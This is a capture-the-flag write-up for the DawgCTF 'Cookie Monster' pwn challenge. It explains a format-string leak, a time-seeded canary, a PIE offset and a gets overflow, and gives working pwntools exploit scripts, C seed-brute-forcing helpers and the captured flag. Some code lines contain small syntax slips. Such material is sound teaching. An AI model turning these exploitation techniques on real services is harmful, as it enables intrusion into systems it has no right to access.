



# Cookie Monster

## Description

> Hungry?
> 
> nc ctf.umbccd.io 4200

Attached is the binary file.

## Solution

Let's reverse the binary with [Ghidra](https://ghidra-sre.org/).

The `main` function prints a cookie monster, then calls the function `conversation`, which we will exploit.

```c
void conversation(void)
{
  time_t tVar1;
  char buf [5];
  char name [8];
  uint local_cookie;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  saved_cookie = rand();
  local_cookie = saved_cookie;
  puts("\nOh hello there, what\'s your name?");
  fgets(name,8,stdin);
  printf("Hello, ");
  printf(name);
  puts("\nWould you like a cookie?");
  gets(buf);
  check_cookie((ulong)local_cookie);
  return;
}
```

The function initialises the pseudo randomness with `time`, then creates a random value and saves it in `local_cookie`. It acts as a canary: at the end of the function, a check is performed in `check_cookie`, to ensure the value of the local variable (on the stack) has not been changed.

After creating the cookie, we may enter 7 characters (one is used for `\n`), which will be printed with `printf(name)`. This is a format string vulnerability, and therefore we can leak arbitrary data on the stack. Due to the size limitation however, we may only leak one address...

Then the `gets` function allow for a buffer overflow. As we analyse the binary, we see a function `flag`, which displays the flag.

The exploit is therefore the following: we need to retrieve the value of the cookie on the stack, using the format string vulnerability, then overflow the buffer and replace the return address by the address of `flag`, and we need to conserve the value of `local_cookie`.

This looks quite straightforward, except that PIE and ASLR are activated! Therefore the address of `flag` changes between executions. We may use the format string vulnerability, but we can only leak one value at a time...

Lucky for us, the cookie is generated using poor randomness! It just uses the current time, and therefore if we can synchronize with the server, we may compute the exact same values.

The exploit is therefore the following:
- use the format string vulnerability to leak the time of the server
- run the program again
- use the format string vulnerability to leak the return address
- compute the address of flag, being the return address plus a constant offset
- compute locally the cookie, knowing the server's time
- overflow the buffer, by replacing the cookie with its computed value (hopefully nothing changes) and replacing the return address with the computed `flag` address.

Let's look at each step one by one.

### Synchronize with server

The idea is the following: we connect to the server, at the same time we launch our own C program which prints the local time. Then we use the format string vulnerability to display the cookie, and then we perform a search on the server's time to find which time could yield to the chosen random number.

This gives us the time difference between local machine and remote server.

First, let's find the cookie value on the stack. Using `gdb` to debug the program locally, we see that the `local_cookie` variable is located at `-0x4(rbp)`. Then we exploit the format string vulnerability to see the values on the stack, by inputing `%{}$p`, where we may choose `{}` until we get the cookie value.



In the picture above, we input `%9$p`, which is a format string which will display the 9th value on the stack. This is the red value displayed, and when we compare it to the cookie stored on the stack, it matches. So we've found its position on the stack.

Now we can synchronize ourself with the server. This simple C program will just print the local time:

```c
#include <stdio.h>
#include <time.h>

int main() {
  printf("%ld\n", time(NULL));
  return 0;
}
```

We compile it with:

```bash
gcc -o time time.c
```

Then we use this simple Python script to retrieve all necessary information:

```python
from pwn import *
import os

sh = remote("ctf.umbccd.io", 4200)

os.system("./time")

print(sh.recvuntil("name?").decode())
sh.sendline("%9$p")
text = sh.recvuntil("cookie?").decode()
print(text)
```

This prints the local time and the cookie. Then we use the following C program to find the offset. As `time` is in seconds, we make the assumption that the time difference is lower than 200s.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define COOKIE {cookie_value}
#define LOCAL_TIME {local_time_value}

int main() {
  for(time_t t = LOCAL_TIME - 200; t < LOCAL_TIME + 200; ++t) {
    srand(t);
    if(rand() == COOKIE) {
      printf("%ld"\n, t - LOCAL_TIME);
      break;
    }
  }
  return 0;
}
```

We compile it, execute it, and find the time difference between the server and our local computer.

### Find address of flag

Because of PIE and ASLR, functions will not have the same address between different executions. Addresses will have the form `addr = random_value + constant_offset`. Therefore, we can read using format string vulnerability the original return address, and then deduce by adding a constant offset the address of flag. As we know the cookie is the 9th element on the stack, we deduce the return address is the 11th when exploiting the format string vulnerability, and therefore inputing `%11$p` will leak the original return address. Then we can compute the offset:



In red is the original return address, and in green the address of `flag` for this run. Therefore the offset is `1b5 - 34f = -19a`.

### Complete exploit

This script performs the exploit:

```python
from pwn import *

sh = remote("ctf.umbccd.io", 4200)

cookie = int(os.popen("./rand").read())

print(sh.recvuntil("name?").decode())
sh.sendline("%11$p")
text = sh.recvuntil("cookie?").decode()
print(text)
original_ret = text.split("\n")[1][7:]
original_ret = int(original_ret, 16)

print(hex(original_ret))
print(hex(cookie))

flag = original_ret - 0x19a

payload = b'0'*13 + p32(cookie) + b'aaaabbbb' + p64(flag)
sh.sendline(payload)
sh.interactive()
```

with `rand.c` the following file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define TIME_OFFSET {time_offset}

int main() {
  srand(time(NULL) + TIME_OFFSET);
  printf("%d"\n, rand());
  return 0;
}
```



Flag: `DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}`